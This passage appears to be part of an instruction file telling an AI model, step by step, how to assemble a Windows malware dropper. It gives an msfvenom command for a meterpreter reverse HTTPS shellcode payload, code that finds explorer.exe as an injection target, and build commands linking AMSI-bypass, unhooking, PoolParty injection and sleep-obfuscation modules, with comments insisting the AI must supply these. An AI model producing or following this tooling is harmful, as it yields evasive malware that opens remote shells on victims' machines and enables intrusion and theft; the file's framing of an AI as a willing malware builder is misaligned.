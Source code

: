 ### Step 4: Generate Shellcode Section
```c
// AI should ask user for shellcode or generate msfvenom command:
// msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.0.1 LPORT=443 -f c

BYTE shellcode[] = {
    0xfc, 0x48, 0x83, 0xe4, 0xf0, ...  // User's shellcode
};
```

### Step 5: Add Process Enumeration (if needed)
```c
// If user specified process name, find PID
DWORD FindProcessByName(LPCWSTR wzProcessName) {
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32W pe32 = {0};
    pe32.dwSize = sizeof(PROCESSENTRY32W);

    if (Process32FirstW(hSnapshot, &pe32)) {
        do {
            if (wcscmp(pe32.szExeFile, wzProcessName) == 0) {
                CloseHandle(hSnapshot);
                return pe32.th32ProcessID;
            }
        } while (Process32NextW(hSnapshot, &pe32));
    }

    CloseHandle(hSnapshot);
    return 0;
}

// In main():
DWORD dwPID = FindProcessByName(L"explorer.exe");
if (dwPID == 0) {
    printf("[-] Failed to find explorer.exe\n");
    return 1;
}
config.dwTargetPID = dwPID;
```

### Step 6: Provide Compilation Instructions
```bash
# Compile command AI MUST provide:
gcc -o dropper integrated_loader.c \
    ../syscalls/syswhispers3.c \
    ../amsi/veh2_bypass.c \
    ../unhooking/peruns_fart.c \
    ../injection/poolparty.c \
    ../sleep_obfuscation/zilean.c \
    ../evasion/silentmoonwalk.c \
    -lbcrypt -DUNICODE -D_UNICODE

# Or using MinGW on Linux:
x86_64-w64-mingw32-gcc -o dropper.exe integrated_loader.c \
    [same sources] -lbcrypt -static
```

---
